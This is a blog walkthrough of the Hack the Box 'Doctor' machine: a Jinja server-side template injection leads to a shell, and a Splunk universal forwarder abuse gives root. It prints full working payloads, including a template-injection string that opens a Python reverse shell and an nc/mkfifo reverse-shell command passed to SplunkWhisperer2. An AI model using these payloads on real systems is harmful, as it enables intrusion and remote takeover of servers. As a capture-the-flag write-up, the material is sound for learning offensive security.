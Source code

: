 +++
author = "Nick"
categories = ["hack the box", "easy", "Linux", "splunk", "reverse shell", "Server Side Template Injection"]
date = 2021-05-01T17:02:00Z
description = ""
draft = false
thumbnail = "/images/2020/11/doctor.png"
slug = "hack-the-box-doctor"
tags = ["hack the box", "easy", "Linux", "splunk", "reverse shell", "Server Side Template Injection"]
title = "Hack the Box - Doctor"
url = "/hack-the-box-doctor"

+++


Welcome back! Today we are doing the Hack the Box machine - Doctor. This machine is listed as an Easy Linux machine. Let's jump in!

At this point, you know how we kick it off. That's right, `nmap`.

Command:
`nmap -sC -sV -p- -oA allscan 10.10.10.209`

Here are our results:
```
Nmap scan report for 10.10.10.209
Host is up (0.045s latency).                                                                                                                                                                       
Not shown: 65532 filtered ports                                                                                                                                                                    
PORT     STATE SERVICE  VERSION                                                                                                                                                                    
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)                                                                                                               
| ssh-hostkey:                                                                                                                                                                                     
|   3072 59:4d:4e:c2:d8:cf:da:9d:a8:c8:d0:fd:99:a8:46:17 (RSA)                                                                                                                                     
|   256 7f:f3:dc:fb:2d:af:cb:ff:99:34:ac:e0:f8:00:1e:47 (ECDSA)                                                                                                                                    
|_  256 53:0e:96:6b:9c:e9:c1:a1:70:51:6c:2d:ce:7b:43:e8 (ED25519)                                                                                                                                  
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))                                                                                                                                             
|_http-server-header: Apache/2.4.41 (Ubuntu)                                                                                                                                                       
|_http-title: Doctor                                                                                                                                                                               
8089/tcp open  ssl/http Splunkd httpd                                                                                                                                                              
| http-robots.txt: 1 disallowed entry                                                                                                                                                              
|_/                                                                                                                                                                                                
|_http-server-header: Splunkd                                                                                                                                                                      
|_http-title: splunkd                                                                                                                                                                              
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser                                                                                                                
| Not valid before: 2020-09-06T15:57:27                                                                                                                                                            
|_Not valid after:  2023-09-06T15:57:27                                                                                                                                                            
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel                                                                                                                                            
                                                                                                                                                                                                   
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                                                                     
Nmap done: 1 IP address (1 host up) scanned in 150.43 seconds  
```

So not much to see. We have a required key SSH option, a site being hosted  on 80 and potentiall 8089. It would seem that a path forward could be through `Splunk`. Awesome! As someone that uses Splunk on the daily, this should be fun.

When we visit the site being hosted, we are greated with a site dedicated to doctors. We see a site listed as doctors.htb, so we'll add that to our hosts lists. This way we can fuzz additional subdomains.

Next we kick of a `gobuster` scan to see what we can find.

Command:
`gobuster dir -u doctors.htb -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -x txt,php -t 40`

We get back some basic pages.

![](/images/2020/11/image-7.png)

Let's try to access some of these 'hidden' pages, like `archive` and `login`. Nothing is there. If we navigate to 'doctors.htb' we are prompted with a login page. Checking the source does show the `archives` page as well.

![](/images/2020/11/image-8.png)

We can test the login page for basic injections but doesn't seem to be anything there. We can register an account though. We create the account and are given 20 minutes of access. Once we get authenticated we have a very small interface to work with.

![](/images/2020/11/image-9.png)

We can create new messages it seems.

![](/images/2020/11/image-10.png)

It's possible this field has some injection options. If we submit an `<h1>` tag, we can see it does reflect the HTML code.

![](/images/2020/11/image-11.png)

What's interesting about this is that the messages we send are also posted over to `/archive` as well.

![](/images/2020/11/image-12.png)

As we do more recon about the site, we see that `wappalyzer` has the site framework as `python`. So there are a few scenarios here. This form could be `XSS` or it oculd be `Template Injection` vulnerable. My guess would be the latter. You can read more on `Template Injection` [here](https://portswigger.net/research/server-side-template-injection).

If we google Python Template engine, we see the first result is `jinja`. If we google jinja template injection we see a few options, a good resource being [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings

We can test against this use case by doing just what's listed:

![](/images/2020/11/image-13.png)

Sure enough, we do get the expected results!

![](src="__GHOST_URL__/content/images/2020/11/1.png" width="272" height="166")![](src="__GHOST_URL__/content/images/2020/11/12.png" width="293" height="96")

So now, how do we leverage this? We simply leverage the supplied [Remote Code statement](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#exploit-the-ssti-by-calling-popen-without-guessing-the-offset)!

Since it is `python` based, we can actually modify this statement to supply a standard `python` remote shell.

```python
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.169\",9090));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
```

We also need to ensure our listener is running on port 9090.

Command:
`nc -lvnp 9090`

We submit the message, check the archive page and we get a shell!

![](/images/2020/11/image-15.png)

Now that we have a low level shell, we can enumerate and escalate. We'll copy over `linpeas` and see what show up.

Make sure you have a web server running in your peas location.

Command:
`python -m SimpleHTTPServer 80`

Then download `linpeas`.

Command:
`wget 10.10.14.169/linpeas.sh`

Change the file permissions.

Command:
`chmod +x linpeas.sh` 

Then run it.

There's a lot to sift through. We do however, find a password in an old backup file:

![](/images/2020/11/image-16.png)

We can a assume the user typed his password in the email field here. And given the lines below it, make the assumption that the user is shaun. We'll just switch to Shaun and see.

Command:
`su shaun`

![](/images/2020/11/image-17.png)

Now if we upgrade our shell and snag our `user.txt` flag. Once we have it, we can start enumerating again. We'll re-run `linpeas` and see what it can find. An item that semi-sticks out is that `root` is running the `splunkd` process.

![](/images/2020/11/image-18.png)

If you've spent anytime working with `Splunk` you know this is a potentially bad scenario. Items like [SplunkWhisperer2](https://github.com/DaniloCaruso/SplunkWhisperer2) can make for a really bad day.

We'll clone the repo.

Command:
`git clone https://github.com/DaniloCaruso/SplunkWhisperer2`

Now we can use this to escalate our privileges. Simply supply the right commands to get a shell back or even just snag our flag file.

Command:
`python PySplunkWhisperer2_remote.py --lhost 10.10.14.169 --host 10.10.10.209 --username shaun --password Guitar123 --payload '/bin/bash -c "rm /tmp/zzz;mkfifo /tmp/zzz;cat /tmp/zzz|/bin/sh -i 2>&1|nc 10.10.14.169 6666 >/tmp/zzz"'`

![](/images/2020/11/image-19.png)

We  get a shell back as root! We get our flag and the box is done!



